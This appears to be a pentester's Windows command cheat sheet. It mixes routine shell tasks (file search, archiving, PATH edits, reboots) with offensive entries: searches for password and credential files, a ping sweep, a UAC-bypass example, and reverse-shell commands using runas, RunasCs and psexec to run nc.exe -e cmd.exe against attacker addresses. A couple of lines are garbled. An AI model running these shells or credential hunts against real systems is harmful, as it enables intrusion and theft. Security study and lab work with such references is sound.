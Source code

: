 # Commands

## Short path to avoid spaces

This avoids troubles for some protocols/services. Six uppercase letters + \~ + number.

```
"PROGRA~1"
```

{% embed url="https://superuser.com/questions/529400/how-does-progra1-path-notation-work" %}

## General

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Go to C:\Folder quickly
cd \Fol*

# Look for hidden files
dir /A:H /s "c:\program files"
dir /a user.txt
dir *.bat /a /s
ls -force 
dir $PATH -force 
# check for files in home folders of users with names that could mean they hold passwords
dir /s C:\Users
# -----------------------------FIND/SEARCH/LOOK FOR FILES
cd C:\ && dir *.bat /a /s
dir /a /o /q # know owner of files/folders
dir /s flag2* # /s look in subsequent folders
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
# CREATE EMPTY/TEXT FILE
echo This is sample text > MyFile.txt

# Like grep lines after and before. Example:
netstat -anbo | Select-String -Pattern MyPattern -Context 3,3

# ZIP FILES (Windows 10 has tar command since 2018)
tar.exe acvf yourfile.zip yourfolder
powershell Compress-Archive D:\Build\FolderName D:\Build\FolderName.zip
powershell expand-archive D:\Build\FileName.zip D:\deployments\FileName

# Permissions - calcs
$ cacls $PATH /grant $USER:F
tasklist #imagine we want to kill process.exe
taskkill /im:process.exe /F #/F to force terminationStart-Process "shell-name.exe"


echo %USERNAME%
$env:UserName
#REDIRECT OUTPUT
2>NUL
#Redirect to a file and show output like tee
dir > a.txt & type a.txt
#COUNT LINES
cat file.txt | find /c /v ""

# Type fast a long path
Instead of "Documents and Settings" --> docume~1 (first 6 characters +  ~1)
# cmd and echo
cmd.exe /c echo "Hello World" 
# move, delete and copy files
move $FILE $DESTINATION
copy $FILE $DESTINATION
del $FILE

# Checksum and integrity
certutil -hashfile test.bin SHA1
# Ping sweep
C:\>for /L %i in (1,1,255) do @ping -n 1 -w 200 10.5.5.%i > nul && t echo 10.5.5.%i is up.
# Base64 encode
echo -n 'text' | base64 -w 0
```
{% endcode %}

## RunAs / Start Process As

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/antonioCoco/RunasCs
C:\ > runas /env /profile /user:WORKGROUP\$username "$COMMAND"
runas /env /profile /user:HOSTNAME\Administrator "C:\temp\nc.exe -e cmd.exe $LHOST 443" 

RunasCs.exe <username> <password> cmd -r 10.0.0.1:4444
RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
Invoke-RunasCs $user $pass whoami

# Requires interactive console
runas /user:userName cmd.exe
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```
{% endcode %}

## Reboot system

```powershell
# Simulation
Restart-Computer -WhatIf
# Real reboot
Restart-Computer
```

## &#x20;variables (Windows PATH)

By default **setx** sets the variable in the local environment (Under HKEY\_Current\_User Registry key). If you want to set the system variable (Under HKEY\_LOCAL\_MACHINE registry key), use the flag **/m**. Start the command prompt as administrator on Windows 10, right click on Start menu and select **Command Prompt(Admin)**.

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\>setx /m PATH "C:\myfolder;%PATH%"
# Fix PATH environmental variable
set PATH=c:\Windows\System32\;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%
echo %path%
# PS
(Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment" -Name "PATH").path
$Env:Path
```
{% endcode %}
